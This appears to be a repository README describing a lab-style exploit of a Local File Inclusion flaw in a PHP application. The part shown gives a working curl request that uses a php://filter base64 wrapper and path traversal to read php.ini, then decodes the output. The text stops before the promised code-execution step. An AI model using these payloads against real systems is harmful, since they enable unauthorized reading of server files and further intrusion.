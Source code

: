 # PHP LFI to RCE Exploit Write-Up

This repository documents a step-by-step process to exploit a Local File Inclusion (LFI) vulnerability in a PHP web application to read sensitive files and achieve Remote Code Execution (RCE).

## Overview
The target is a web server running a PHP application at `http://94.237.58.172:47698`. The application has an LFI vulnerability in the `language` parameter, which allows reading arbitrary files and, with `allow_url_include` enabled, executing remote code.

## Steps

### Step 1: Discover LFI Vulnerability
Using `curl`, I accessed the `php.ini` file by exploiting the LFI vulnerability with a PHP filter to base64-encode the file content:
```bash
curl "http://94.237.58.172:47698/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```
The response contained the base64-encoded php.ini file embedded in the HTML.
### Step 2: Save and Decode the File
I saved the HTML response (including the base64-encoded `php.ini`) to a file named `text.text`:
```bash
nano text.text
```
Then, I decoded the base64 content to extract the php.ini file:
`base64 -d text.text > config.php`
